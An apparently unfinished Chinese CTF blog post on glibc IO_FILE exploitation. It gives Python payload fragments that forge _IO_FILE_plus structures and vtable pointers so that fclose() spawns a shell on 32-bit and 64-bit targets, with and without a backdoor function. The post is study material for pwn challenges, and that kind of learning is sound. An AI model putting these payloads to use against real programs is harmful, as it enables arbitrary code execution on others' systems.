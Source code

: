 ```yaml
---
title: IO_FILE ALl_in_one
date: 2018-11-06 20:46:15
tags:
---
```

IO_FILE 总结 未完成...
<!--more-->
# Start
最近看到HItcon2018的babytcache发现IO_FILE还是博大精深，之前对于IO_FILE的理解还是十分稚嫩只知道orange和普通的利用...
尔后又看了老钟的博客感觉IO_FILE神奇的很! 收获满满
[老钟博客传送点][1]
开始自己动手把lowkey师傅的课件的题探索一遍...
感觉lowkey师傅的课件还是循循善诱当时基础太差没领会其中奥妙...
开始写前膜一波angelboy lowkey zs0zrc
# 0x00 IO_FILE Basic
像是一些我們熟悉的gets puts 都和IO_FILE有关
基础部分之前在[echo][2]和[orange][3]介绍过一些就不介绍了

# 0x01 fclose()_getshell

在32bit系统中，_IO_jump_t的偏移是0x94，64bit系统中偏移是0xE8

64位:
* 存在后门情况
```python
payload='\x00'*0x10+p64(sh)+"\x00"*0x70+p64(buf)
payload=payload.ljust(0xd8,'\x00')+p64(buf)
payload=payload.ljust(0x100)#充填防髒數據
```
* 不存在后门情况
```python
payload="/bin/sh".ljust(0x10,'\x00')+p64(system)+"\x00"*0x70+p64(buf+0x20)#此处地址上值为0
payload=payload.ljust(0xd8,'\x00')+p64(buf+0x10-0x88)
payload=payload.ljust(0x100,'\x00')#防止脏数据
```

32位：
伪造IO_FILE_plus结构体, 32位和64位不一样，32位的需要伪造vtable,而64位可以不用伪造vtable，因为64位的在绕过几个函数后会获得一次call [rax + 0x10]的机会（zs0zrc）
```python
#存在後門sh use_IO_new_fclose
payload="".ljust(0x48,'\x00')+p32(buf)+p32(sh)
payload=payload.ljust(0x94,'\x00')+p32(buf+0x4c-0x8)
payload=payload.ljust(0x100,"\x00")
#不存在後門情況 use __fclose
payload="/bin/sh".ljust(0x48,'\x00')+p32(buf+8)+p32(system)#0ff 0x48 處指向地址值位0
payload=payload.ljust(0x94,'\x00')+p32(buf-0x44+0x4c)
payload=payload.ljust(0x100,"\x00")

```




[1]:https://www.jianshu.com/p/a6354fa4dbdf
[2]:https://n132.github.io/IO-FILE-IO-buf-base/
[3]:https://n132.github.io/house-of-orange/


